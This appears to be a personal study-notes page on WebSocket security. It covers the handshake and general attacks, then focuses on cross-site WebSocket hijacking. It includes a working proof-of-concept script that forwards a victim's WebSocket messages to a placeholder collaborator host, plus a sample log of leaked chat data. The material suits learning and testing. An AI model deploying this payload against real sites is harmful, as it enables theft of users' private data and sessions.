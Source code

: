>[!question] What are WebSockets?
>WebSockets are a bi-directional, full duplex communications protocol initiated over HTTP. They are commonly used in modern web applications for streaming data and other asynchronous traffic.

# WebSockets 101

WebSocket connections are initiated over HTTP and are typically long-lived. Messages can be sent in either direction at any time and are not transactional in nature. The connection will normally stay open and idle until either the client or the server is ready to send a message.

WebSockets are particularly useful in situations where low-latency or server-initiated messages are required, such as real-time feeds of financial data.

>[!tip] Tooling for testing WebSockets
>- [SocketSleuth](https://github.com/snyk/socketsleuth/) [^note]

[^note]:[Start free - SocketSleuth Improving Security Testing for WebSocket Applications  Snyk](../../Readwise/Articles/Start%20free%20-%20SocketSleuth%20Improving%20Security%20Testing%20for%20WebSocket%20Applications%20%20Snyk.md#^af3f13)
## Establishing connections

Protocols to open WebSocket:
- `wss://normal-website.com/chat`: WebSocket over TLS
- `ws://normal-website.com/chat`: clear-text WebSocket

To establish the connection, the browser and server perform a WebSocket handshake over HTTP:

```http
GET /chat HTTP/1.1
Host: normal-website.com
Sec-WebSocket-Version: 13
Sec-WebSocket-Key: wDqumtseNBJdhkihL6PW7w==
Connection: keep-alive, Upgrade
Cookie: session=KOsEJNuflw4Rd9BDNrVmvwBF9rEijeE2
Upgrade: websocket
```

If the server accepts the connection, it returns a WebSocket handshake response like the following:

```http
HTTP/1.1 101 Switching Protocols
Connection: Upgrade
Upgrade: websocket
Sec-WebSocket-Accept: 0FFP+2nmNIf/h+4BP36k9uzrYGk=
```

At this point, the network connection remains open and can be used to send WebSocket messages in either direction.

>[!note]
>WebSocket messages can contain any content or data format, although in modern web application the JSON format is the most used 

# General attacks

In principle, practically any web security vulnerability might arise in relation to WebSockets:

- User-supplied input transmitted to the server might be processed in unsafe ways, leading to vulnerabilities such as [SQL Injection](SQL%20Injection.md) or [XML External Entity Injection (XXE Injection)](XML%20External%20Entity%20Injection%20(XXE%20Injection).md)
- Some blind vulnerabilities reached via WebSockets might only be detectable using [out-of-band (OAST) techniques](https://portswigger.net/blog/oast-out-of-band-application-security-testing).
- If attacker-controlled data is transmitted via WebSockets to other application users, then it might lead to [Cross-Site Scripting (XSS)](Cross-Site%20Scripting%20(XSS).md) or other [Client side vulnerabilities](../Services/HTTP%20&%20HTTPS.md#Client%20side%20vulnerabilities)
- Manipulating the WebSocket handshake to exploit vulnerabilities
- Using cross-site WebSockets hijacking (CSWSH)

## Cross-site WebSockets hijacking (CSWSH)

 Cross-site WebSockets hijacking is a [Cross-Site Request Forgery (CSRF)](Session%20Attacks%20(CSRF,%20session%20stealing,%20etc.).md#Cross-Site%20Request%20Forgery%20(CSRF)) vulnerability on a WebSocket handshake. It arises when the WebSocket handshake request relies solely on HTTP cookies for session handling and does not contain any CSRF tokens or other unpredictable values. 
 
 Unlike regular CSRF, the attacker gains **two-way interaction** with the compromised application. What happens next in the attack depends entirely on the application's logic and how it is using [WebSockets](https://portswigger.net/web-security/websockets). The attack might involve: 
- Sending WebSocket messages to perform unauthorized actions on behalf of the victim user.
- Sending WebSocket messages to retrieve sensitive data.
- Sometimes, just waiting for incoming messages to arrive containing sensitive data.


>[!example]
>PoC hosted on the attacker server performing the CSRF and leaking the received information using ws:
>
>```html
><script>
>    var ws = new WebSocket('wss://your-websocket-url');
>    ws.onopen = function() {
>        ws.send("READY");
>    };
>    ws.onmessage = function(event) {
>        fetch('https://your-collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data});
>    };
></script>
>```
>Data exfiltrated from the victim ws:
>```http
>...
10.0.4.85       2023-01-06 21:24:17 +0000 "GET /exploit/ HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.124 Safari/537.36"
10.0.4.85       2023-01-06 21:24:18 +0000 "GET /log?a={%22user%22:%22Hal%20Pline%22,%22content%22:%22Hello,%20how%20can%20I%20help?%22} HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.124 Safari/537.36"
10.0.4.85       2023-01-06 21:24:18 +0000 "GET /log?a={%22user%22:%22You%22,%22content%22:%22I%20forgot%20my%20password%22} HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.124 Safari/537.36"
10.0.4.85       2023-01-06 21:24:18 +0000 "GET /log?a={%22user%22:%22CONNECTED%22,%22content%22:%22--%20Now%20chatting%20with%20Hal%20Pline%20--%22} HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.124 Safari/537.36"
10.0.4.85       2023-01-06 21:24:18 +0000 "GET /log?a={%22user%22:%22You%22,%22content%22:%22Thanks,%20I%20hope%20this%20doesn&apos;t%20come%20back%20to%20bite%20me!%22} HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.124 Safari/537.36"
10.0.4.85       2023-01-06 21:24:18 +0000 "GET /log?a={%22user%22:%22Hal%20Pline%22,%22content%22:%22No%20problem%20carlos,%20it&apos;s%20qhakj7ncjna6l17u20as%22} HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.124 Safari/537.36"
|...
>```

This vulnerability was used against Gitpod to leak environment data and obtain SSH keys, bypassing [SameSite attribute on cookies](Session%20Attacks%20(CSRF,%20session%20stealing,%20etc.).md#SameSite%20attribute%20on%20cookies), finally escalating to RCE. [^gitpod]

[^gitpod]: [Gitpod remote code execution 0-day vulnerability via WebSockets](https://snyk.io/blog/gitpod-remote-code-execution-vulnerability-websockets/), snyk.io